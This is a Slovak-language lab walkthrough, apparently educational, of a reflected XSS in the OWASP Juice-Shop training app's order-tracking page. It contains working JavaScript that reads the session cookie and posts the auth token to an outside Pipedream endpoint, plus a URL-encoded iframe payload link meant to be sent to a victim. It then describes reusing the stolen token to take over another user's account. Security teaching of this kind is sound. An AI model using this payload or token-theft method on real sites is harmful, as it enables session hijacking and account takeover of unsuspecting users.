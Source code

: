 # Reflected cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Po spustení aplikácie a zaregistrovaní sa prejdeme do sekcii v menu "Objednávky a platby".
- V url sa nám zobrazujú objednávky podľa id, kde na obrazovke vyhľadanej objednávky sa taktiež zobrazuje id objednávky.
- Tento design pattern má potencionálnu zraniteľnosť a to, že vpisujeme neoverený vstup priamo do DOM stránky.
- V zdrojovom kóde juice-shopu v komponente track-result.component.html (angular komponent) je hodnota id vkladaná do DOM cez zraniteľnú metódu "innerHTML". To nám v prípade neoverenia vstupu umožňuje aplikovať reflected XSS útok.
- Do url parametru môžeme teda vložiť škodlivý kód a ten bude priamo vložený do tela stránky.
          const headers = new Headers();
          headers.append("Content-Type", "text/plain");

          const body = {
          test: "event",
          };

          const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: document.cookie.split("")[4].split("=")[1],
          };

          fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);`
- Tento kód vytvorí HTTP request na daný endpoint a odošle autentifikačný token z cookie súborov. Vytvoríme si vlastný endpoint v službe Pipedream (inštalácia https://pipedream.com/requestbin) a nahradíme náš vytovrený
  endpoint za hodnotu "https://eojph9o2kgja7k2.m.pipedream.net" v ukážkovom kóde. 
- Kód potrebujeme zakódovať tak, aby ho prehliadač vedel prijať ako validný parameter (online enkóder a dekóder - https://www.urlencoder.org/), potom vložiť do "iframe" tagu ako javascript reťazec a takto upravenú url môžeme vložiť do vyhladávania a spustiť.

          <a href="http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E">
              http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E"
          </a>
- Skopírovanú url môžeme poslať obetí a ťa, v prípade že je prihlásená v systéme, omylom odošle na nás endpoint autentifikačný token.
- Získaný token vložíme do local storageu aplikácie a týmto spôsobom sme sa prihlásili do účtu iného používateľa.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/reflected-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/reflected-xss.mp4)
